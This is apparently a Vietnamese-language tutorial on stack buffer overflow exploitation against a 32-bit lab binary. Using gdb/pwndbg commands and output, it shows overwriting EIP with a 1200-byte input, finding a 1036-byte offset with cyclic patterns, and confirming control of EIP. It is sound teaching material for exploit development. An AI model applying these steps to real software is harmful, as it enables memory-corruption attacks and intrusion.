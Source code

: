 # Take Control of EIP
---
## Lỗi phân đoạn - Segmentation Fault
```shell
└─$ gdb -q bow32    <--- into the gdb debug

pwndbg> run $(python2 -c "print('\x55' * 1200)")
Starting program: /.../Linux_x86/Exploxit/Attack/bow32 $(python2 -c "print('\x55' * 1200)")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()

```

Nếu cho 1200 ký tự "\x55" làm đầu vào chúng ta có thể thấy thông tin thanh ghi EIP đã bị ghi đè. Theo những gì chúng tôi biết, EIP trỏ đến lệnh tiếp theo sẽ được thực thi.

```shell
pwndbg> info register
eax            0x1                 1
ecx            0xffffd190          -11888
edx            0xffffcaf1          -13583
ebx            0x55555555          1431655765
esp            0xffffca60          0xffffca60
ebp            0x55555555          0x55555555
esi            0x56558eec          1448447724
edi            0xf7ffcba0          -134231136
eip            0x55555555          0x55555555 # <---- thanh ghi con trỏ lệnh EIP đã bị ghi đè
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
....
```
Mô tả trực quan hình ảnh dữ liệu:
```shell
| Address | Stack  |                                DATA
|:-------:|:------:|                                 ⬇
| Low     | ...... | <--- ESP
|         | Data   |                                 
|         | Data   |                                  
|         | Data   |                                  
|         | ....   | 
|         | Data   | 
|         | Data   | <--- EBP        
|         | Data   |                  
|         | Data   | <--- EPI                
| High    | ...... |         
```
Điều này có nghĩa là chúng ta phải ghi quyền truy cập vào EIP. Điều này cho phép chỉ định địa chỉ bộ nhớ mà EIP sẽ nhảy tới. Tuy nhiên, để thao tác với thanh ghi, chúng ta cần một số U chính xác cho đến EIP để 4 byte sau có thể được ghi đè bằng địa chỉ bộ nhớ mong muốn của chúng ta.

## Tìm offset 
* Offset là phần dữ liệu xác định để ghi đè **Buffer**.

* Shellcode là mã chương trình chứa các hướng dẫn cho một thao tác mà chúng ta muốn CPU thực hiện

### Attack
Tạo Payload
```shell
└─$ cyclic 1200 > input
# Tạo payload có độ dài 1200 byte ghi vào file input
```
Attack
```shell
pwndbg> run $(cat input)
Starting program: /.../Linux_x86/Exploxit/Attack/bow32 $(cat input)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x6b61616a in ?? ()

---

pwndbg> info register
    ...
    eip            0x6b61616a          0x6b61616a
    ...
```
Chúng ta cần tính toán **offset**

```shell
└─$ cyclic -l jaak # 0x6b61616a - little endian
1036
```

```shell
| Address |     Stack    |                                DATA
|:-------:|:------------:|                                 ⬇
| Low     | ............ | <--- ESP
|         |     Data     |              <-*
|         |     Data     |                *
|         |     Data     |                *   # 1036 byte offset           
|         |     Data     | <--- EBP       *  
|         |              |              <-*    
|         |  0x6b61616a  | <--- EPI                
| High    | ............ |         
```

**CHECKEND**
```shell
pwndbg> run $(python2 -c "print('a' * 1036 + '\x66' * 4)")
Starting program: /.../Linux_x86/Exploxit/Attack/bow32 $(python2 -c "print('a' * 1036 + '\x66' * 4)")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```




